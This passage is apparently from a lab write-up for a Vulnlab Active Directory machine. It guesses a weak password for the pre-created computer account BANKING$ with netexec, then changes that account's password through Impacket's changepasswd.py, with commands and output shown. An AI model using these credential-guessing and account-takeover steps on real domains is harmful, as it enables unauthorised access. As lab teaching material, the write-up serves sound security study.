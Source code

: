 ```
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James
```

This text file hints that there is some ancient banking software and some pre-created computer account, judging by that I can safely assume that they are talking about the account `BANKING$`, I tried onec again some weak credentials like `$BANKING:banking` and I got this result:

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u BANKING$ -p 'banking'
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```

The result I got is `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` which means that the password is correct! (REF: https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)
But I cannot use this account until the password is changed, so lets do that. There is `changepasswd.py` by Impacket (https://github.com/fortra/impacket/blob/master/examples/changepasswd.py) which I can use to change the password via RPC, the thing that I need is another user, which I already have (`trainee`). There are other methods to change the password like `kpasswd` as well.

## Change the password via RPC (imapcket's changepasswd.py) Method #1

```
(impacket-env) syl@sylsec:~/tools/impacket/examples$ python changepasswd.py retro.vl/'BANKING$':'banking'@10.10.64.243 -altuser trainee -altpass trainee
Impacket v0.12.0.dev1+20230921.20754.9c8f344b - Copyright 2023 Fortra

New password: 
Retype new password: Summer2018!
[!] Attempting to *change* the password of retro.vl/BANKING$ as retro.vl/trainee. You may want to use '-reset' to *reset* the password of the target.
[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\trainee
[*] Password was changed successfully.
```

## Using `kpasswd` Method #2

I can go with the LDAP way of chaning the password using the binary `kpasswd` and since this is uncommon on Linux you can install it with:

```
syl@sylsec:~/tools/$ sudo apt install krb5-user
```
